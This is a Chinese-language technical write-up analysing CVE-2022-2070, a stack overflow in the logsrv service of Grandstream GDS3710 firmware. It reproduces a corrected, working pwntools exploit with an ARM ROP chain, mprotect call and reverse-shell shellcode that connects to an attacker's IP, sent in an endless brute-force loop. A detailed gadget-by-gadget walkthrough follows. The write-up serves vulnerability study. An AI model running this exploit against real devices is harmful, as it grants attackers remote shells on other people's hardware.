#### 环境搭建
这里有两种选择，可以直接在真机上调试，需要上传gdb等工具，但是无需补齐环境，也可以选择用户态的固件仿真，在自己的设备上模拟应用运行，调试方便一些（补充：由于payload用到了libc的gadget，且采用的是爆破而不是泄露libc基址，故在自己设备上模拟是很难打成功的），但是需要补齐环境。

这里简单介绍一下`### qemu -L +  GDB-Multiarch`的用户级仿真方式
```shell
sudo apt install qemu-arm

# logsrv会自动到-L指定目录下的lib /usr/lib寻找动态链接库，需要把设备上的/lib /usr/lib下载到rootfs/下
qemu-arm -g 1234 -L /home/kali/firmware/GDS3710/rootfs/ ./logsrv

# gdb-multiarch支持多架构的调试
sudo apt install gdb-multiarch

gdb-multiarch ./logsrv
# 在 GDB 内部执行：
(gdb) set architecture arm          # 设置架构为 ARM
(gdb) target remote localhost:1234  # 连接 QEMU
```
用户级仿真还需要手动补齐环境，这一块比较繁杂，可以运行`qemu-arm -strace -L /home/kali/firmware/GDS3710/rootfs ./logsrv`看是缺失哪些文件、信号量或者其他环境导致的应用启动失败，一点点补齐即可

#### exp
exploit-db上的payload有一些问题，以下代码做了一些修改，修改见 "注释1" "注释2"
这个exp脚本也很简单，值得解释的有两点：
1.libc_base硬编码+循环发送payload：由于libc的基址没有泄露，且目标程序架构是arm32（爆破成本不算太高）+有守护进程（程序崩掉后会自动重启），于是可以在libc未知的情况下，硬编码一个地址进行爆破。从下图中可以看出，libc的基址基本上只有2到3位会变化。

2.check_badchars的作用：溢出发生在下图sscanf，`@`和`\x00`会导致字符串截断，payload没法写入正确位置，check_badchars用于检查payload中是否包含这两个非法字符



```python
#!/usr/bin/env python3

# Exploit Title: Grandstream GSD3710 1.0.11.13 - Stack Buffer Overflow
# Google Dork: [if applicable]
# Date: 2025-05-23
# Exploit Author: Pepelux (user in ExploitDB)
# Vendor Homepage: https://www.grandstream.com/
# Software Link: [download link if available]
# Version: Grandstream GSD3710 - firmware:1.0.11.13 and lower
# Tested on: Linux and MacOS
# CVE: CVE-2022-2070

"""
Author: Jose Luis Verdeguer (@pepeluxx)

Required: Pwntools

Example:

Terminal 1:
$ ncat -lnvp 4444

Terminal 2:
$ python 3 CVE-2020-2070.py -ti DEVICE_IP -tp 8081 -ri LOCAL_IP -rp 4444
"""

from operator import ge
import sys
import time
from pwn import *

import argparse


def get_args():
    parser = argparse.ArgumentParser(
        formatter_class=lambda prog: argparse.RawDescriptionHelpFormatter(
            prog, max_help_position=50))

    # Add arguments
    parser.add_argument('-ti', '--target_ip', type=str, required=True,
                        help='device IP address', dest="device_ip")
    parser.add_argument('-tp', '--target_port', type=int, required=True, default=8081,
                        help='device port', dest="device_port")
    parser.add_argument('-ri', '--reverse_ip', type=str, required=True,
                        help='reverse IP address', dest="reverse_ip")
    parser.add_argument('-rp', '--reverse_port', type=int, required=True,
                        help='reverse port', dest="reverse_port")

    # Array for all arguments passed to script
    args = parser.parse_args()

    try:
        TI = args.device_ip
        TP = args.device_port
        RI = args.reverse_ip
        RP = args.reverse_port

        return TI, TP, RI, RP
    except ValueError:
        exit()


def check_badchars(data):
    for i in range(len(data)):
        if data[i] in [0x0, 0x40]:
            log.warn("Badchar %s detected at %#x" % (hex(data[i]), i))
            return True
    return False


def get_shellcode(ip, port):
    ip_bytes = socket.inet_aton(ip)
    port_bytes = struct.pack(">H", port)

    # Linux ARM reverse shell

    # switch to thumb mode
    sc = b"\x01\x30\x8F\xE2"  # add r3, pc, #1
    sc += b"\x13\xFF\x2F\xE1"  # bx r3

    # socket(2, 1, 0)
    sc += b"\x02\x20"  # movs r0, #2
    sc += b"\x01\x21"  # movs r1, #1
    sc += b"\x92\x1A"  # subs r2, r2, r2
    sc += b"\xC8\x27"  # movs r7, #0xc8
    sc += b"\x51\x37"  # adds r7, #0x51
    sc += b"\x01\xDF"  # svc #1
    sc += b"\x04\x1C"  # adds r4, r0, #0

    # connect(r0, &sockaddr, 16)
    sc += b"\x0C\xA1"  # adr r1, #0x30
    sc += b"\x4A\x70"  # strb r2, [r1, #1]
    sc += b"\x10\x22"  # movs r2, #0x10
    sc += b"\x02\x37"  # adds r7, #2
    sc += b"\x01\xDF"  # svc #1

    # dup2(sockfd, 0)
    sc += b"\x3F\x27"  # movs r7, #0x3f
    sc += b"\x20\x1C"  # adds r0, r4, #0
    sc += b"\x49\x1A"  # subs r1, r1, r1
    sc += b"\x01\xDF"  # svc #1

    # dup2(sockfd, 1)
    sc += b"\x20\x1C"  # adds r0, r4, #0
    sc += b"\x01\x21"  # movs r1, #1
    sc += b"\x01\xDF"  # svc #1

    # dup2(sockfd, 2)
    sc += b"\x20\x1C"  # adds r0, r4, #0
    sc += b"\x02\x21"  # movs r1, #2
    sc += b"\x01\xDF"  # svc #1

    # execve("/bin/sh")
    sc += b"\x06\xA0"  # adr r0, #0x18
    sc += b"\x92\x1A"  # subs r2, r2, r2
    sc += b"\x49\x1A"  # subs r1, r1, r1
    sc += b"\x01\x91"  # str r1, [sp, #4]
    sc += b"\x02\x91"  # str r1, [sp, #8]
    sc += b"\x01\x90"  # str r0, [sp, #4]
    sc += b"\x01\xA9"  # add r1, sp, #4
    sc += b"\xC2\x71"  # strb r2, [r0, #7]
    sc += b"\x0B\x27"  # movs r7, #0xb
    sc += b"\x01\xDF"  # svc #1

    sc += b"\x02\xFF"
    sc += port_bytes
    sc += ip_bytes
    sc += b"/bin/shX"

    return sc


def main():
    ti, tp, ri, rp = get_args()

    # ROP Gadgets

    # libc_base = 0x76ec1000
    # 注释1：libc基址是硬编码的，需要爆破4位16进制地址，这里调整基址爆破3位；本地测试时，可以调整为 cat /proc/pid/maps|grep libc 查询到的地址，一次成功
    libc_base = 0x76dc9000

    mprotect = libc_base + 0x93510 + 1
    pop_lr = libc_base + 0x1848C  # pop {r0, r4, r8, ip, lr, pc}
    pop_pc = libc_base + 0xd7515  # pop {pc}
    pop_r0 = libc_base + 0x00064bb0 + 1  # 0x00064bb0 : pop {r0, pc}

    pop_r5 = libc_base + 0x00003738 + 1  # 0x00003738 : pop {r5, pc}
    add_r1_sp = libc_base + 0x000b3c4e + 1  # 0x000b3c4e : add r1, sp, #0x14 ; blx r5
    # 0x0002f83c (0x0002f83d): mov r0, r1; bx lr
    mov_r0_r1 = libc_base + 0x0002f83d
    # 0x0006a086 (0x0006a087): pop {r1, pc}
    pop_r1 = libc_base + 0x6a087
    ands_r0_r1 = libc_base + 0x1feba + 1  # 0x0001feba : ands r0, r1 ; bx lr
    # 0x000a3a42 : movs r4, r0 ; pop {r1, pc}
    mov_r4_r0 = libc_base + 0x000a3a42 + 1
    # 0x0001fdae (0x0001fdaf): movs r1, r0; bx lr
    movs_r1_r0 = libc_base + 0x0001fdaf

    and_r0_f = libc_base + 0x8717e + 1  # 0x0008717e : and r0, r0, #0xf ; bx lr
    movs_r2_r0 = libc_base + 0x0001fc6a + 1  # 0x0001fc6a : movs r2, r0 ; bx lr
    mov_r0_r4 = libc_base + 0x0001f9d4 + 1  # 0x0001f9d4 : movs r0, r4 ; bx lr
    blx_sp = libc_base + 0x46595  # 0x00046594 (0x00046595): blx sp

    shellcode = get_shellcode(ri, rp)

    auth_command = b"LOG/1.0 END CMD:AUTH_USERNAME @"
    junk = p32(0x43434343)

    payload = auth_command
    # 注释2：原payload计算偏移不正确
    payload += b"A" * (144+148)

    # The goal is that R0 -> SP

    # R5 = pop {pc}
    # because in the the next gadget we have a blx r5
    payload += p32(pop_r5)
    payload += p32(pop_pc)  # R5 = pop {pc}

    # R1 = SP ; BLX pop {pc}
    payload += p32(add_r1_sp)  # add r1, sp, #0x14 ; blx r5

    # Restore LR register (because it has been updated by the last BLX gadget)
    payload += p32(pop_lr)  # pop {r0, r4, r8, ip, lr, pc}
    payload += junk * 4  # r0, r4, r8, ip
    payload += p32(pop_pc)  # LR = pop {pc}

    # R0 = stack address
    payload += p32(mov_r0_r1)  # mov r0, r1; bx lr

    # R1 = mask page align
    payload += p32(pop_r1)  # pop {r1, pc}
    payload += p32(0xfffe1001)

    # R0 = stack address & 0xfffe1001
    payload += p32(ands_r0_r1)  # ands r0, r1 ; bx lr
    # R4 = R0
    payload += p32(mov_r4_r0)  # movs r0, r4 ; bx lr
    payload += junk  # r1

    #  mprotect params
    # r0 = shellcode page aligned address
    # r1 = size(ofshellcode)
    # r2 = protection (0x7 – RWX)

    # R2 = 0x7
    payload += p32(pop_r0)
    payload += p32(0x07070707)
    payload += p32(and_r0_f)  # R0 = 7 (RWX)
    payload += p32(movs_r2_r0)  # R2 (prot: 7 - RWX)

    # R1 = length = 0x10101010 (avoid 0's)
    payload += p32(pop_r0)
    payload += p32(0x01010101)
    payload += p32(movs_r1_r0)  # r1 (length: 0x10101010)

    # R0 = stack address 4k aligned
    payload += p32(mov_r0_r4)

    # mprotect(stack, 0x10101010, 0x7)
    payload += p32(mprotect)
    payload += p32(blx_sp)  # ejecutamos en pila
    payload += shellcode  # shellcode

    if check_badchars(payload[len(auth_command):]):
        sys.exit(0)

    log.info("Device IP: %s:%d" % (ti, tp))
    log.info("Attacker IP: %s:%d" % (ri, rp))
    log.info("Payload len: %d" % len(payload))

    count = 1
    print(payload.hex())

    while True:
        try:
            print('Try: %d' % count)
            r = remote(ti, tp)
            r.send(payload)
            log.success("Payload sent!")
            # r.close()
            time.sleep(1)
            count += 1
        except:
            sleep(3)
            pass
    # try:
    #     print('Try: %d' % count)
    #     r = remote(ti, tp)
    #     r.send(payload)
    #     log.success("Payload sent!")
    #     # r.close()
    #     time.sleep(1)
    #     count += 1
    # except:
    #     sleep(3)
    #     pass


if __name__ == '__main__':
    main()

```

#### payload解析
先对payload做一个概括：
1.溢出劫持执行流
2.寻找并定位栈地址
3.内存页对齐
4.调用 mprotect 修改权限
5.跳转到注入的Shellcode

payload在栈上的布局如下，后续分析payload时可以对照查看，`->`表示指向某条指令，`pop_r5`覆盖了`upload_log_to_pc`函数的返回地址
```txt
pop_r5-> pop {r5, pc}
pop_pc-> pop {pc}
add_r1_sp-> add r1, sp, #0x14 ; blx r5
pop_lr-> pop {r0, r4, r8, ip, lr, pc}  <-sp
junk1
junk2
junk3
junk4
pop_pc-> pop {pc} <-sp+0x14
mov_r0_r1-> mov r0, r1; bx lr
pop_r1-> pop {r1, pc}
0xfffe1001
ands_r0_r1-> ands r0, r1 ; bx lr
mov_r4_r0-> movs r4, r0 ; pop {r1, pc}
junk5
pop_r0->  pop {r0, pc}
0x07070707
movs_r1_r0-> movs r1, r0; bx lr
and_r0_f-> and r0, r0, #0xf ; bx lr
movs_r2_r0-> movs r2, r0 ; bx lr
pop_r0->  pop {r0, pc}
0x01010101
movs_r1_r0-> movs r1, r0; bx lr
mov_r0_r4->movs r0, r4 ; bx lr
mprotect
blx_sp->blx sp
shellcode
```

##### ROP（面向返回编程）和Gadget
解释payload之前介绍一下ROP的概念和Gadget的概念，注意如下伪代码
```c
func1(){
a="/bin/sh\0";
return 0;
}

func2(){
b=NULL;
return 0;
}

func3(){
c=NULL;
return 0;
}

do_execve() {
    execve(a, b, c);
}

main(){
a[8];
a=input("输入");
return 0;
}
```
函数的返回地址保存在栈上，当main函数发生溢出时，我们可以覆盖main的返地址以及后续的返回地址，使得main的返回地址指向func1的`a="/bin/sh\0";`，然后func1返回时仍然要从栈上取得被我们覆盖的返回地址，再跳转到func2的`b=NULL;`，依次类推，最终我们执行到了`execve(a,b,c);`，且参数也设置好了。
综上所述，ROP的思想是拼接程序中已有的指令片段（gadget）来完成任意逻辑，注意到gadget的最后一条指令一般都是`ret jmp bx pop {pc}`等可以控制pc寄存器的指令，这样才能将多个gadget连接起来。
一般我们寻找gadget会使用`ROPGadget`这个工具，具体需要寻找哪些Gadget，就需要结合我们的需求和代码中已有的Gadget来判断了。



##### 溢出劫持执行流
```py
auth_command = b"LOG/1.0 END CMD:AUTH_USERNAME @"
payload = auth_command
# 注释2：原payload计算偏移不正确
payload += b"A" * (292)

payload += p32(pop_r5)
```
上述代码是payload的起始，通过静态分析logsrv，可以发现溢出点
定位到如下位置，发现程序通过`recv`接收了最大0x1000的数据

然后通过`get_log_msg_op`对接收的数据进行匹配，判断后续该如何处理


我们的payload中包含`CMD:AUTH_USERNAME`，`get_log_msg_op`返回3，进入`upload_log_to_pc`进行处理，溢出点如下，`LOG/1.0 END CMD:AUTH_USERNAME @`在@后的超长内容将会直接写入栈上变量`s`

我们需要从s的位置开始，写足够长的内容，直到覆盖`upload_log_to_pc`的返回地址，首先我们需要考虑覆盖多长，观察汇编代码，栈上变量`s`位于`sp+0x20`的位置

退出函数`upload_log_to_pc`时，`sp`变动了`0x124`，后面恢复上层调用寄存器，需要先将r4-r11 8个寄存器出栈，才到`upload_log_to_pc`的返回地址，所以我们得填充`(0x124-0x20)+0x04*8=292`这么长的内容，而后覆盖返回地址

我们还需要考虑一个问题，填充内容是否可以是除了`@ \x00`外的任意字符，因为我们的填充内容会覆盖栈上的其他变量，如果这些变量被其他代码引用，而我们又覆盖上了非法值，可能导致程序崩溃或者跳转到其他地方，导致payload打不成功，通过分析代码，发现我们所疑虑的问题并不存在，因为我们的payload只有一个`@`，导致sscanf只写入了一个变量，返回值为1，进入if分支，没有太多操作直接返回


##### 寻找并定位栈地址
这里payload的最终目的是跳转到栈上，执行注入的shellcode，但是由于程序开启了`NX`，栈上标记为不可执行，需要先调用`mprotect`修改栈的执行权限

`mprotect`的三个参数为R0: 栈内存页基址，R1: 长度，R2: 权限位
这里先处理第一个参数，寻找到一个合适的基址，保证能够覆盖我们的shellcode

```py
# R5 = pop {pc}
# because in the the next gadget we have a blx r5
payload += p32(pop_r5)
payload += p32(pop_pc)  # R5 = pop {pc}

# R1 = SP ; BLX pop {pc}
payload += p32(add_r1_sp)  # add r1, sp, #0x14 ; blx r5
# Restore LR register (because it has been updated by the last BLX gadget)
payload += p32(pop_lr)  # pop {r0, r4, r8, ip, lr, pc}
payload += junk * 4  # r0, r4, r8, ip
payload += p32(pop_pc)  # LR = pop {pc}

# R0 = stack address
payload += p32(mov_r0_r1)  # mov r0, r1; bx lr
```
以上payload做了如下事情：
1.pop_r5：覆盖了`upload_log_to_pc`的返回地址，程序跳转到指令`pop {r5, pc}`，执行完毕后`r5=pop_pc；pc=add_r1_sp；sp指向pop_lr`
2.add_r1_sp：注意pc的指向，接下来直接执行这条指令，执行完毕后`r1=sp+0x14`r1指向junk后的pop_pc，保证定位到的栈地址在shellcode之前，`blx r5`跳转到`r5`指向的`pop {pc}`
3.pop_pc：`pop {pc}`执行完毕后，`pc=pop_lr;sp指向junk1`，`junk`是占位的数据，没有实际意义
4.pop_lr：`pop {r0, r4, r8, ip, lr, pc}`执行完毕后，`r0=junk1;r4=junk2;r8=junk3;ip=junk4;lr=pop_pc;pc=mov_r0_r1;sp指向pop_r1`，这里为什么需要4个占位数据呢，因为我们的目的是控制`lr,pc`，但是找不到更加合适的Gadget，例如`pop {lr, pc}`，于是选择了有额外操作但是也可以达成目的的指令

5.mov_r0_r1：`mov r0, r1; bx lr`执行完毕后，`r0=r1=shellcode之前栈上的某个地址;bx是跳转到lr，即pc=lr=pop_pc；sp指向pop_r1`。此时`mprotect`的第一个参数以及指向了栈上

##### 内存页对齐
`mprotect` 系统调用有一个硬性要求：修改权限的起始地址必须是页面对齐的（通常是 0x1000/4KB 的倍数），所以我们需要对`r0`的内容进行对齐
```py
# R1 = mask page align
payload += p32(pop_r1)  # pop {r1, pc}
payload += p32(0xfffe1001)

# R0 = stack address & 0xfffe1001
payload += p32(ands_r0_r1)  # ands r0, r1 ; bx lr
```
6.pop_pc：`pop {pc}`执行完毕后，`pc=pop_r1;sp指向0xfffe1001`
7.pop_r1：`pop {r1, pc}`执行，`r1=0xfffe1001;pc=ands_r0_r1;sp指向mov_r4_r0`，0xfffe1001是一个掩码，通过位运算，将精确的栈地址“向下取整”
8.ands_r0_r1：`ands r0, r1 ; bx lr`执行，`r0实现页对其；pc=lr=pop_pc;sp指向mov_r4_r0`，此时`mprotect`的第一个参数完全设置好了

##### 设置参数r1和r2,调用 mprotect 修改权限
```py
# R4 = R0
payload += p32(mov_r4_r0)  # movs r0, r4 ; bx lr
payload += junk  # r1

#  mprotect params
# r0 = shellcode page aligned address
# r1 = size(ofshellcode)
# r2 = protection (0x7 – RWX)

# R2 = 0x7
payload += p32(pop_r0)
payload += p32(0x07070707)
payload += p32(and_r0_f)  # R0 = 7 (RWX)
payload += p32(movs_r2_r0)  # R2 (prot: 7 - RWX)

# R1 = length = 0x10101010 (avoid 0's)
payload += p32(pop_r0)
payload += p32(0x01010101)
payload += p32(movs_r1_r0)  # r1 (length: 0x10101010)

# R0 = stack address 4k aligned
payload += p32(mov_r0_r4)

# mprotect(stack, 0x10101010, 0x7)
payload += p32(mprotect)
payload += p32(blx_sp)  # ejecutamos en pila
payload += shellcode  # shellcode
```
下面的操作有点绕，核心是将栈上的数据pop到r1和r2，以设置`mprotect`的参数
9.pop_pc：`pop {pc}`执行,`pc=mov_r4_r0;sp指向junk5`
10.mov_r4_r0:`movs r4, r0 ; pop {r1, pc}`执行，`r4=r0=栈上地址；r1=junk5;pc指向pop_r0；sp指向0x07070707`，这里r0后面要用到，先把r0临时保存到r4
11.pop_r0：`pop {r0, pc}`执行，`r0=0x07070707;pc=movs_r1_r0;sp指向and_r0_f`
12.movs_r1_r0：`movs r1, r0; bx lr`执行,`r1=r0=0x07070707;pc=lr=pop_pc;sp指向and_r0_f`
13.pop_pc：`pop {pc}`执行,`pc=and_r0_f;sp指向movs_r2_r0`
14.and_r0_f：`and r0, r0, #0xf ; bx lr`，`r0=r0&0x0f=0x07；pc=pop_pc;sp指向movs_r2_r0`
15.pop_pc：`pop {pc}`,`pc=movs_r2_r0;sp指向pop_r0`
16.movs_r2_r0：`movs r2, r0 ; bx lr`，`r2=r0=0x07;pc=lr=pop_pc;sp指向pop_r0`，此时`mprotect`的第三个参数设置好了（7和linux的权限类似，可读可写可执行）
17.pop_pc：`pop {pc}`，`pc=pop_r0;sp指向0x01010101`
18.pop_r0：`pop {r0, pc}`执行，`r0=0x01010101;pc=movs_r1_r0;sp指向mov_r0_r4`
19.movs_r1_r0:`movs r1, r0; bx lr`执行,`r1=r0=0x01010101;pc=lr=pop_pc;sp指向mov_r0_r4`，此时r1即第二个参数也设置完毕，超大长度保证能够覆盖shellcode
20.pop_pc:`pop {pc}`执行,`pc=mov_r0_r4;sp指向mprotect`
21.mov_r0_r4：`movs r0, r4 ; bx lr`,`r0=r4=栈上某个地址；pc=lr=pop_pc;sp指向mprotect`,r0的值恢复
22.pop_pc：`pop {pc}`执行，`pc=mprotect;sp指向blx_sp`
23.mprotect：pc指向`mprotect`函数的起始地址，前面参数也设置完毕，调用更改栈的权限，调用完毕后，`pc=pop_pc；sp指向blx_sp`。
